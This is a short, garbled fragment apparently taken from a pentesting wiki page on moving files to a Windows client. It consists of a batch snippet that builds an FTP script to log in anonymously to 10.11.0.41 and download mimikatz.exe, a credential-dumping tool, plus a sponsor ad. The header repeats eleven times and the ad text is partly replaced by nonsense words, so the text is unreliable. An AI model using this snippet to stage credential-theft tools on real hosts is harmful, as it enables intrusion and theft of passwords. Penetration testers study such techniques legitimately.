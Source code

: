 ### **Windows** client

### **Windows** client

### **Windows** client

### **Windows** client

### **Windows** client

### **Windows** client

### **Windows** client

### **Windows** client

### **Windows** client

### **Windows** client

### **Windows** client
```bash
#Work well with python. With pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt
```
<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

vItlhutlhvam vulnerabilities vItlhutlhvam vItlhutlhvam vItlhutlhvam vItlhutlhvam. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***
